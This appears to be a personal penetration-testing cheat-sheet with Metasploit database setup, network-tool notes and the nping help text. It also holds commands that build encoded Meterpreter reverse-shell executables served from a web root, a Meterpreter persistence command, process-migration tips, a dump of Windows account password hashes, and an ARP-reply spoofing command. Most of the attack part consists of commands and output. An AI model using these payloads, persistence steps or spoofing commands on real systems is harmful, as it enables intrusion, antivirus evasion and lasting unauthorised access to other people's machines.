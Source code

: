 # start postgres db
    * Metasploit uses PostgreSQL as its database so it needs to be launched first.

        service postgresql start
        ** You can verify that PostgreSQL is running by checking the output of ss -ant and making sure that port 5432 is listening.

        State Recv-Q Send-Q Local Address:Port Peer Address:Port
        LISTEN 0 128 :::22 :::*
        LISTEN 0 128 *:22 *:*
        LISTEN 0 128 127.0.0.1:5432 *:*
        LISTEN 0 128 ::1:5432 :::*
    * Initialise the Metasploit PostgreSQL Database

        With PostgreSQL up and running, we next need to create and initialize the msf database.

        pg_ctl init -D /var/db/postgresql/defaultdb/
        pg_ctl -D /var/db/postgresql/defaultdb -l /var/db/postgresql/defaultdb/logfile start
        su - postgres -c "pg_ctl -D /var/db/postgresql/defaultdb/ start"

        psql
        create user root;
        create database ms;

        msfdb init
    * Launch msfconsole in Kali

        Now that the PostgreSQL service is up and running and the database is initialized, you can launch msfconsole and verify database connectivity with the db_status command as shown below.

        msfconsole
        msf > db_status
        [*] postgresql connected to msf3
        msf >

         umount -a -t cifs -l


         apt-cdrom -d=/dev/sr0 add

         traceroute www.google.com 
             -f 8   //ttl
             -w 2   //wait time
             -q 4   // query count
             -n     // not use hostname,use ip address instead

    * wireshare
        ip.src == 192.168.11.1
        udp.port==68 or udp.port==67


    * Metasploit
        [-] Meterpreter Exception: Rex::Post::Meterpreter::RequestError stdapi_registry_open_key: Operation failed: Access is denied.
        [-] This script requires the use of a SYSTEM user context (hint: migrate into service process)
        find a system process get pid
        migrate pid

Administrator:500:c0ad129bd4e0e675ab0b09b894a430a5:64f2a499e4fc2846acfaa3c2381ed559:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:bc156931ebe3fa457e2260fe8b464b5c:04d8217f38d4aab7c2ad9ee56ed93b01:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:2f99608b6d63ec34d85538bdef5916e1:::

[*] Authenticating to 10.0.128.4:445|WORKGROUP as user 'Administrator'...
 
[-] FAILED! The remote host has only provided us with Guest privileges. 
    Please make sure that the correct username and password have been provided. 
    Windows XP systems that are not part of a domain will only provide Guest privileges to network logins by default.


run scraper

    timeout

pessistent:
    * run persistence -X -i 50 -p 443 -r ip
    
payload:    
    msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.128.0 lport=31337 -f exe -o /var/www/payload1.exe

    msfpayload windows/meterpreter/reverse_tcp lhost=10.0.128.0 lport=33134 X > /var/www/payload1.exe

    msfpayload windows/shell_reverse_tcp lhost=10.0.128.0 lport=33134 R | msfencode -e x86/shikata_ga_nai -t exe > /var/www/payload2.exe 


    OPTIONS:

    -a <opt>  The architecture to encode as
    -b <opt>  The list of characters to avoid: '\x00\xff'
    -c <opt>  The number of times to encode the data
    -d <opt>  Specify the directory in which to look for EXE templates
    -e <opt>  The encoder to use
    -h        Help banner
    -i <opt>  Encode the contents of the supplied file path
    -k        Keep template working; run payload in new thread (use with -x)
    -l        List available encoders
    -m <opt>  Specifies an additional module search path
    -n        Dump encoder information
    -o <opt>  The output file
    -p <opt>  The platform to encode for
    -s <opt>  The maximum size of the encoded data
    -t <opt>  The output format: bash,c,csharp,dw,dword,hex,java,js_be,js_le,num,perl,pl,powershell,ps1,py,python,raw,rb,ruby,sh,vbapplication,vbscript,asp,aspx,aspx-exe,dll,elf,elf-so,exe,exe-only,exe-service,exe-small,loop-vbs,macho,msi,msi-nouac,osx-app,psh,psh-net,psh-reflection,vba,vba-exe,vbs,war
    -v        Increase verbosity
    -x <opt>  Specify an alternate executable template

    msfpayload windows/meterpreter/reverse_tcp lhost=10.0.128.0 lport=33134 R | msfencode -e x86/shikata_ga_nai -c 5 -t raw | \
        msfencode -e x86/alpha_upper -c 2 -t raw | msfencode -e x86/shikata_ga_nai -t raw -c 5 | \
        msfencode -e x86/countdown -c 5 -t exe -o /var/www/payload3.exe


    Nping 0.7.30 ( https://nmap.org/nping )
Usage: nping [Probe mode] [Options] {target specification}

TARGET SPECIFICATION:
  Targets may be specified as hostnames, IP addresses, networks, etc.
  Ex: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.*.1-24
PROBE MODES:
  --tcp-connect                    : Unprivileged TCP connect probe mode.
  --tcp                            : TCP probe mode.
  --udp                            : UDP probe mode.
  --icmp                           : ICMP probe mode.
  --arp                            : ARP/RARP probe mode.
  --tr, --traceroute               : Traceroute mode (can only be used with
                                     TCP/UDP/ICMP modes).
TCP CONNECT MODE:
   -p, --dest-port <port spec>     : Set destination port(s).
   -g, --source-port <portnumber>  : Try to use a custom source port.
TCP PROBE MODE:
   -g, --source-port <portnumber>  : Set source port.
   -p, --dest-port <port spec>     : Set destination port(s).
   --seq <seqnumber>               : Set sequence number.
   --flags <flag list>             : Set TCP flags (ACK,PSH,RST,SYN,FIN...)
   --ack <acknumber>               : Set ACK number.
   --win <size>                    : Set window size.
   --badsum                        : Use a random invalid checksum.
UDP PROBE MODE:
   -g, --source-port <portnumber>  : Set source port.
   -p, --dest-port <port spec>     : Set destination port(s).
   --badsum                        : Use a random invalid checksum.
ICMP PROBE MODE:
  --icmp-type <type>               : ICMP type.
  --icmp-code <code>               : ICMP code.
  --icmp-id <id>                   : Set identifier.
  --icmp-seq <n>                   : Set sequence number.
  --icmp-redirect-addr <addr>      : Set redirect address.
  --icmp-param-pointer <pnt>       : Set parameter problem pointer.
  --icmp-advert-lifetime <time>    : Set router advertisement lifetime.
  --icmp-advert-entry <IP,pref>    : Add router advertisement entry.
  --icmp-orig-time  <timestamp>    : Set originate timestamp.
  --icmp-recv-time  <timestamp>    : Set receive timestamp.
  --icmp-trans-time <timestamp>    : Set transmit timestamp.
ARP/RARP PROBE MODE:
  --arp-type <type>                : Type: ARP, ARP-reply, RARP, RARP-reply.
  --arp-sender-mac <mac>           : Set sender MAC address.
  --arp-sender-ip  <addr>          : Set sender IP address.
  --arp-target-mac <mac>           : Set target MAC address.
  --arp-target-ip  <addr>          : Set target IP address.
IPv4 OPTIONS:
  -S, --source-ip                  : Set source IP address.
  --dest-ip <addr>                 : Set destination IP address (used as an
                                     alternative to {target specification} ).
  --tos <tos>                      : Set type of service field (8bits).
  --id  <id>                       : Set identification field (16 bits).
  --df                             : Set Don't Fragment flag.
  --mf                             : Set More Fragments flag.
  --ttl <hops>                     : Set time to live [0-255].
  --badsum-ip                      : Use a random invalid checksum.
  --ip-options <S|R [route]|L [route]|T|U ...> : Set IP options
  --ip-options <hex string>                    : Set IP options
  --mtu <size>                     : Set MTU. Packets get fragmented if MTU is
                                     small enough.
IPv6 OPTIONS:
  -6, --IPv6                       : Use IP version 6.
  --dest-ip                        : Set destination IP address (used as an
                                     alternative to {target specification}).
  --hop-limit                      : Set hop limit (same as IPv4 TTL).
  --traffic-class <class> :        : Set traffic class.
  --flow <label>                   : Set flow label.
ETHERNET OPTIONS:
  --dest-mac <mac>                 : Set destination mac address. (Disables
                                     ARP resolution)
  --source-mac <mac>               : Set source MAC address.
  --ether-type <type>              : Set EtherType value.
PAYLOAD OPTIONS:
  --data <hex string>              : Include a custom payload.
  --data-string <text>             : Include a custom ASCII text.
  --data-length <len>              : Include len random bytes as payload.
ECHO CLIENT/SERVER:
  --echo-client <passphrase>       : Run Nping in client mode.
  --echo-server <passphrase>       : Run Nping in server mode.
  --echo-port <port>               : Use custom <port> to listen or connect.
  --no-crypto                      : Disable encryption and authentication.
  --once                           : Stop the server after one connection.
  --safe-payloads                  : Erase application data in echoed packets.
TIMING AND PERFORMANCE:
  Options which take <time> are in seconds, or append 'ms' (milliseconds),
  's' (seconds), 'm' (minutes), or 'h' (hours) to the value (e.g. 30m, 0.25h).
  --delay <time>                   : Adjust delay between probes.
  --rate  <rate>                   : Send num packets per second.
MISC:
  -h, --help                       : Display help information.
  -V, --version                    : Display current version number.
  -c, --count <n>                  : Stop after <n> rounds.
  -e, --interface <name>           : Use supplied network interface.
  -H, --hide-sent                  : Do not display sent packets.
  -N, --no-capture                 : Do not try to capture replies.
  --privileged                     : Assume user is fully privileged.
  --unprivileged                   : Assume user lacks raw socket privileges.
  --send-eth                       : Send packets at the raw Ethernet layer.
  --send-ip                        : Send packets using raw IP sockets.
  --bpf-filter <filter spec>       : Specify custom BPF filter.
OUTPUT:
  -v                               : Increment verbosity level by one.
  -v[level]                        : Set verbosity level. E.g: -v4
  -d                               : Increment debugging level by one.
  -d[level]                        : Set debugging level. E.g: -d3
  -q                               : Decrease verbosity level by one.
  -q[N]                            : Decrease verbosity level N times
  --quiet                          : Set verbosity and debug level to minimum.
  --debug                          : Set verbosity and debug to the max level.
EXAMPLES:
  nping scanme.nmap.org
  nping --tcp -p 80 --flags rst --ttl 2 192.168.1.1
  nping --icmp --icmp-type time --delay 500ms 192.168.254.254
  nping --echo-server "public" -e wlan0 -vvv
  nping --echo-client "public" echo.nmap.org --tcp -p1-1024 --flags ack

SEE THE MAN PAGE FOR MANY MORE OPTIONS, DESCRIPTIONS, AND EXAMPLES

nping --arp --arp-type arp-reply --arp-sender-mac a0:8d:16:55:ce:38 --arp-sender-ip 192.168.43.1 --arp-target-mac 84:4b:f5:85:91:8e --arp-target-ip 192.168.43.206 192.168.43.206
echo "this is a test from all of you" |  ncat -u 127.0.0.1 4913
